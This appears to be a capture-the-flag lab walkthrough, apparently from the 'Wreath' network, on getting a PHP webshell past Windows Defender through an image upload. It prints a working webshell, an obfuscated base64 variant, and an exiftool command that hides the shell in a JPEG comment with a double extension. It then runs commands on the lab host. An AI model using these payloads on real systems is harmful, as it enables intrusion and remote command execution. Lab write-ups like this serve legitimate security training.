 Now that we've covered the basic terminology, let's get back to hacking this PC!

We have an upload point which we can use to upload PHP scripts. We now need to figure out how to make a PHP script that will bypass the antivirus software. Windows Defender is free and comes pre-installed with Windows Server, so let's assume that this is what is in use for the time being.  

The solution is this:  
We build a payload that does what we need it to do (preferably in a slightly less than common way), then we obfuscate it either manually or by using one of the many tools available online.

First up, let's build that payload:  

```
<?php       
$cmd = $_GET["wreath"];       
if(isset($cmd)){           
	echo "<pre>" . shell_exec($cmd) . "</pre>";
}
die();
?>
```

Here we check to see if a GET parameter called "wreath" has been set. If so, we execute it using `shell_exec()`, wrapped inside HTML `<pre>` tags to give us a clean output. We then use `die()` to prevent the rest of the image from showing up as garbled text on the screen.  

This is slightly longer than the classic PHP one-liner webshell (`<?php system($_GET["cmd"]);?>`) for two reasons:

1. If we're obfuscating it then it will become a one-liner anyway
2. Anything _different_ is good when it comes to AV evasion

We now need to obfuscate this payload.

There are a variety of measures we could take here, including but not limited to:

- Switching parts of the exploit around so that they're in an unusual order
- Encoding all of the strings so that they're not recognisable.
- Splitting up distinctive parts of the code (e.g. `shell_exec($_GET[...])`)


---

Manual obfuscation is very much a thing, but for the sake of simplicity, let's just use one of the available online tools. The tool linked [here](https://www.gaijin.at/en/tools/php-obfuscator) is recommended. When it comes to web obfuscation, these tools are generally used to make the code difficult for humans to read; however, by doing things like obfuscating variable/function names and encoding strings, they also prove effective against antivirus software.  

Stick the payload into the tool, then activate all the obfuscation options:![[bb2ef4375625.webp]]

Click the "Obfuscate Source Code" button, and we're left with this mess of PHP:  
`<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>`  

If you look closely you'll see that this is still very much the same payload as before; however, enough has changed that it _should_ fool Defender.

As this is getting passed into a bash command, we will need to escape the dollar signs to prevent them from being interpreted as bash variables. This means our final payload is as follows:  
`<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>`

With an obfuscated payload, we can now finalise our exploit.

Once again, make a copy of an innocent image (ensuring you give it a name in the format of `shell-USERNAME.jpeg.php`), then use `exiftool` to embed the payload into the image:  
`exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-USERNAME.jpeg.php`


![[98a8bd99378c.webp]]

Upload your shell and attempt to access it!

If this worked then you should get an output similar to the following:

![[6b09145ae074.webp]]

Awesome! We have a shell.

We can now execute commands using the `wreath` GET parameter, e.g:  
`http://10.200.72.100/resources/uploads/shell-USERNAME.jpeg.php?wreath=systeminfo`

![[2920fdb4cd18.webp]]


---

> [!Question]
>1. What is the Host Name of the target?
>`WREATH-PC`
>2. What is our current username (include the domain in this)? 
>`wreath-pc\thomas`


**Next step: ** [[Compiling Netcat & Reverse Shell!]]

